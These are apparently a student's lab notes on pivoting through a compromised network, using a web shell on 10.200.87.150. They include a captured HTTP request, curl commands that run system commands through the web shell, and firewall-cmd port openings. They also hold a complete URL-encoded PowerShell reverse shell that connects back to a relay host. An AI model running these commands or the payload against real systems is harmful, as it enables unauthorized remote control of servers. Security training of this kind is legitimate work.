
```
POST /web/exploit-sardarji.php HTTP/1.1

Host: 10.200.87.150

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: csrftoken=4Z65FLlf0WIwqYkgLN8R6kETdRgXT2w4; sessionid=43621cb6f1a317423ef820294d1f2b07

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 8


```


```
curl -X POST http://10.200.87.150/web/exploit-sardarji.php -d "a=whoami"
```

```
refer notepad for now
```

So we have 2 methods to execute and talk back with the server
1st Burpsuite
2nd Curl

I was not getting the shell means firewall is not allowing us to pass the outbound traffic. So let's open the port which should be greater than 15000.

```
firewall-cmd --zone=public --add-port 15999/tcp
```

```
firewall-cmd --list-all
```

![[Pasted image 20240730191933.png]]

I am doing something wrong will review things.

So i have checked and we are getting the reverse shell at the production server
![[Pasted image 20240731122756.png]]

So let's see if we have configured the socat correctly or not.

So i am able to ping the compromised server from the kali aka attacker machine.
![[Pasted image 20240731130835.png]]

But not able to ping our ping machine through git-server
![[Pasted image 20240731131033.png]]


I got the mistake i was doing
![[Pasted image 20240731132151.png]]

![[Pasted image 20240731132441.png]]
See gitserv can talk back to production serv
10.200.87.150 -> 10.200.87.200

10.200.87.200 -> attacker machine

SO we have two ways either get the reverse shell in the production server itself.
In both the technique we have to add the port to allow in the firewall.

```
curl -X POST http://10.200.87.150/web/exploit-sardarji.php -d "a=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.87.200%27%2C15999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

So what i was doing is i though we have to put the attacker IP in the reverse shell and it will just send the reverse shell to us. But this is not how things works.

Will send the reverse shell to the .200 and than it will send it to us aka attacker using Socat.


